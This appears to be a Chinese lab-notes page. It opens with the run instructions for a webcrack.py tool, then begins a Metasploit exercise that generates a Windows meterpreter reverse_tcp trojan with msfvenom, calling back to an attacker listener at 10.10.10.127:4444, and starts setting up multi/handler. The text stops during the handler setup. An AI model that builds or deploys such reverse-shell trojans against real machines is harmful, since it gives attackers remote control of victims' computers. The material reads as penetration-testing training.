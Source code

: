 安装依赖

```
pip install -r requirements.txt
```

运行脚本

```
python3 webcrack.py
> python3 webcrack.py

+---------------------------------------------------+
| __          __  _      _____                _     |
| \ \        / / | |    / ____|              | |    |
|  \ \  /\  / /__| |__ | |     _ __ __ _  ___| | __ |
|   \ \/  \/ / _ \ '_ \| |    | '__/ _' |/ __| |/ / |
|    \  /\  /  __/ |_) | |____| | | (_| | (__|   <  |
|     \/  \/ \___|_.__/ \_____|_|  \__,_|\___|_|\_\ |
|                                                   |
|                 code by @yzddmr6                  |
|                  version: 2.1                     |
+---------------------------------------------------+

File or Url:<>
```

# 实验十一-msfconsole

​	它的全称叫做The Metasploit Framework，简称MSF。是一个免费、可下载的框架，通过它可以很容易地获取、开发并对计算机软件漏洞实施攻击。它本身附带数2000多个已知软件漏洞的专业级漏洞攻击工具。

## 实验过程记录

#### 1）exe木马攻击

##### 1、生成木马

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.127 LPORT=4444 -f exe -o 123.exe
```

10.10.10.127是攻击者的监听机器，4444是被攻击机器监听端口

##### 2）开启kali监听

启动msfconsole

![image-20220317151928134](https://tva1.sinaimg.cn/large/e6c9d24ely1h0cwlr427jj20hg0gkta3.jpg)

###### 开启监听

```
use exploit/multi/handler
```
